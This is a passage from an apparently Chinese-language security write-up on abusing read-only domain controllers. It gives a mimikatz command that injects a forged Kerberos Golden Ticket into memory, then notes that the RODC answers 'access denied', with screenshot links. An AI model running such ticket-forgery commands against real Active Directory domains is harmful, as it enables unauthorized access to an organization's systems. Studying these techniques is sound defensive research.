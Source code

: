（2）执行以下命令，将伪造的 Golden Tickets 提交到内存中：

```powershell
mimikatz.exe "kerberos::purge" "kerberos::ptt golden.kirbi" exit
```

![image-20231123125412751](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123125412751.png)

（3）但是，将伪造的 Golden Tickets 传递到 RODC 时却提示 “拒绝访问”，如下图所示。

![image-20231123134730757](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123134730757.png)

